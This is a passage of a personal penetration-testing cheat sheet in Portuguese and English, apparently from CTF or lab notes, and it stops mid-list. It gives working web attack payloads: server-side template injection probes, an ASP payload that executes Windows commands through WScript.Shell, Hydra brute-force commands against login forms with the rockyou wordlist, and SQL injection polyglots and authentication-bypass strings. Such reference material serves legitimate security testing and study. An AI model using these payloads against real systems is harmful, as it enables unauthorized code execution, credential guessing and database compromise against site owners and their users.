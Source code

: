    - SSTI?
        - Payload Poliglota ( to looking for errors)
            
            ```bash
            ${{<%[%'"}}%\
            ```
            
        - Payload para printar uma string em asp
            
            ```bash
            <% response.write("my asp script")%>
            ```
            
        - Payload para verificar se há processamento do código
            
            ```bash
            {{7*7}}
            ```
            
            ```bash
            <%= 7*7 %>
            ```
            
        - Payload para executar comandos no windows
            
            ```bash
            <%response.write CreateObject("WScript.Shell").Exec("cmd /c ping -n 4 10.10.16.2").StdOut.Readall()%>
            ```
            
    - Brute force dictionary (Hydra)
        - HTTP
            
            ```markdown
            hydra -I $host -l brigid http-form-post "/login:username=^USER^&password=^PASS^:Invalid password" -P /usr/share/wordlists/rockyou.txt
            ```
            
        - SSL HTTPS
            
            ```bash
            hydra -S -v -I $host http-form-post "/login:username=^USER^&password=^PASS^:Invalid password" -P /usr/share/wordlists/rockyou.txt -l admin
            ```
            
    - SQLI
        - Poliglotas
            
            ```php
            '";>#--%*&^`+\
            ```
            
        - Basicos:
            - Mysql
                
                ```jsx
                admin' or 1=1-- -
                
                1 or 1=1--
                